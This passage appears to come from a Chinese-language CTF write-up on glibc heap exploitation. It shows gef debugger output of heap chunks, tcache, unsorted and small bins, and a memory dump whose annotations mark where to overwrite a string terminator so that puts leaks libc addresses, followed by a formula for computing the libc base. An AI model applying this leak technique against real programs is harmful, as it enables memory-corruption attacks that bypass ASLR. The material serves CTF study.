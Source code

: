 ```python
    [0x0000555556db36a0     44 33 6c 34 74 65 00 00 00 00 00 00 00 00 00 00    D3l4te..........]
Chunk(addr=0x555556db36c0, size=0x20, flags=PREV_INUSE)
    [0x0000555556db36c0     44 33 6c 34 74 65 00 00 00 00 00 00 00 00 00 00    D3l4te..........]
Chunk(addr=0x555556db36e0, size=0x20, flags=PREV_INUSE)
    [0x0000555556db36e0     44 33 6c 34 74 65 00 00 00 00 00 00 00 00 00 00    D3l4te..........]
Chunk(addr=0x555556db3700, size=0x20, flags=PREV_INUSE)
    [0x0000555556db3700     44 33 6c 34 74 65 00 00 00 00 00 00 00 00 00 00    D3l4te..........]
Chunk(addr=0x555556db3720, size=0x20, flags=PREV_INUSE)
    [0x0000555556db3720     44 33 6c 34 74 65 00 00 00 00 00 00 00 00 00 00    D3l4te..........]
Chunk(addr=0x555556db3740, size=0x20, flags=PREV_INUSE)
    [0x0000555556db3740     44 33 6c 34 74 65 00 00 00 00 00 00 00 00 00 00    D3l4te..........]
Chunk(addr=0x555556db3760, size=0x20, flags=PREV_INUSE)
    [0x0000555556db3760     44 33 6c 34 74 65 00 00 00 00 00 00 00 00 00 00    D3l4te..........]
Chunk(addr=0x555556db3780, size=0x20, flags=PREV_INUSE)
    [0x0000555556db3780     44 33 6c 34 74 65 00 00 00 00 00 00 00 00 00 00    D3l4te..........]
Chunk(addr=0x555556db37a0, size=0x1f870, flags=PREV_INUSE)  ←  top chunk
gef➤  heap bins
──────────────────────── Tcachebins for thread 1 ──────── # create 1 after full tcache
Tcachebins[idx=32, size=0x220] count=6  ←  Chunk(addr=0x555556db2dc0, size=0x220, flags=PREV_INUSE)  ←  Chunk(addr=0x555556db2b80, size=0x220, flags=PREV_INUSE)  ←  Chunk(addr=0x555556db2940, size=0x220, flags=PREV_INUSE)  ←  Chunk(addr=0x555556db2700, size=0x220, flags=PREV_INUSE)  ←  Chunk(addr=0x555556db24c0, size=0x220, flags=PREV_INUSE)  ←  Chunk(addr=0x555556db2280, size=0x220, flags=PREV_INUSE) 
───────────────────────── Unsorted Bin for arena '*0x7fd6345e3c40' ───────────────────────────
[+] unsorted_bins[0]: fw=0x555556db34b0, bk=0x555556db34b0
 →   Chunk(addr=0x555556db34c0, size=0x1e0, flags=PREV_INUSE)
[+] Found 1 chunks in unsorted bin.
────────────────────────── Small Bins for arena '*0x7fd6345e3c40' ─────────────────────────────
[+] small_bins[33]: fw=0x555556db3230, bk=0x555556db3230
 →   Chunk(addr=0x555556db3240, size=0x220, flags=PREV_INUSE)  # this chunk after chunk0
[+] Found 1 chunks in 1 small non-empty bins.
────────────────────── Large Bins for arena '*0x7fd6345e3c40' ──────────────────────
[+] Found 0 chunks in 0 large non-empty bins.
gef➤  x /80xg 0x555556db3000 -0x10
0x555556db2ff0: 0x0000000000000000      0x0000000000000221 # chunk0(deadbeef) size=0x221
0x555556db3000: 0x6665656264616564      0x4242424242424242 # deadbeefBBBB...
0x555556db3010: 0x4242424242424242      0x4242424242424242
...... # BBBBBBBB......
0x555556db31f0: 0x4242424242424242      0x4242424242424242
0x555556db3200: 0x4242424242424242      0x0000000000000000 # edit target:填充这里的puts截断符
0x555556db3210: 0x0000000000000000      0x0000000000000021 # a 0x21 chunk
0x555556db3220: 0x0000337461347243      0x0000000000000000
0x555556db3230: 0x0000000000000000      0x0000000000000221 # a 0x221 chunk
0x555556db3240: 0x00007fd6345e3eb0      0x00007fd6345e3eb0 # addr in libc
0x555556db3250: 0x0000000000000000      0x0000000000000000 # edit target:输出上面这两个libc addr
0x555556db3260: 0x0000000000000000      0x0000000000000000
```

计算libc基址：根据泄露的libc上的地址与libc基址的相对不变性

curent libc base = curent leak addr - (leak_addr1) + (libc_base1 addr in vmmap)
